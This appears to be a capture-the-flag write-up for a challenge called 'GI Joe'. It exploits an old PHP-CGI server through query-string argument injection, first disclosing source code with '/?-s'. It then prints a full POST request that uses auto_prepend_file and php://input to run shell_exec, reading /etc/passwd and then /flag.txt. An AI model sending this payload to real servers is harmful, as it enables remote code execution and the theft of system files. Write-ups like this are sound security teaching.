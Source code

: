Gi JO

## GI Joe write up 

There is a /cgi-bin/ and the apache and php is old so I decide to look for vulns
I run nikto and it shows is vulnerable to /?-s this shows the source code of index.php
In the source code we can read that the flag is at /flag.txt
Searching for the vulnerablility I found this post https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/

In the post they explain how to leverage the -d to execute php code with a post request:

```
POST /?-dallow_url_include%3d1+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: jh2i.com:50008
Content-Type: application/x-www-form-urlencoded
Content-Length: 66


<?php $output = shell_exec('cat /etc/passwd');echo "$output"; die;
```

![2a50cd6d0759f4f8e3ec427f32a042fc.png](_resources/e3ae3cb72dc94dfea606001bb77db09a.png)

So In order to get the flag we need to execute ``<?php $output = shell_exec('cat /flag.txt');echo "$output"; die;``
